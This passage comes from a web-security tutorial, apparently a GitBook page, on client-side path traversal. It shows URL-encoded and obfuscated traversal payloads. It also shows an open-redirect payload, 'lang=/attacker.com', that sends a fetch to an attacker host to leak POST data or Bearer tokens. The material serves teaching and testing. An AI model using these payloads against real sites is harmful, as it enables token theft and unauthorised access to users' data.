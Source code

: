 ### Path to Path

In all the previous (and next) examples, query parameters are shown as where the input comes from. This is an easy variant where you have complete control, but it won't always be so nice. If your input came from a path parameter into a fetch with a path parameter, using things like `../` will have the same meaning in both contexts and may be resolved before you want them to.

An easy solution may be to URL-encode the payload, the browser/server won't recognize it as literal path traversal anymore, and pass it through. The JavaScript code then needs to explicitly URL-decode your input in order for the `%2e%2e%2f` to become active again.

The browser will always parse the URL the same way, but if you're dealing with a server or reverse proxy that decodes and resolves your path traversals, it may be possible to to obfuscate it using any of the above mentioned tricks (**backslashes** and **tabs & newlines)**. For example `%2e%0a%09%2E\other`:

1. `/blog/${folder}/post`
2. `/blog/%2e%0a%09%2E\other/post`
3. `/blog/.\n\t.\other/post`
4. `/blog/../other/post`
5. `/other/post`

### Open redirect with //

In cases where your input is the first part of a URL, there's a special parsing rule in the browser you can abuse to point it to a completely different (attacker-controlled) host.

{% code title="Vulnerable example" %}
```javascript
const info = await fetch(`/${lang}/info`).then(r => r.json());
```
{% endcode %}

A URL starting with `//` (without a protocol) is seen as an absolute URL, where the protocol is implied from the current one. Like `//example.com` pointing to `https://example.com`. When there is only a first `/` followed by your input, you can start your input with a 2nd slash and then a hostname to point it to.

{% code title="Payload" %}
```url
lang=/attacker.com
```
{% endcode %}

This results in a fetch to `//attacker.com/info` to which you can respond with any data (after enabling [CORS](https://developer.mozilla.org/en-US/docs/Web/HTTP/Guides/CORS#the_http_response_headers) on your server), or **leak** anything that's sent with the response like POST data, or Bearer tokens in the headers.

## Sources

If you can partially rewrite the path, the next step is to control the content (unless you're looking for [#csrf](client-side-path-traversal-cspt.md#csrf "mention")).

### File Uploads
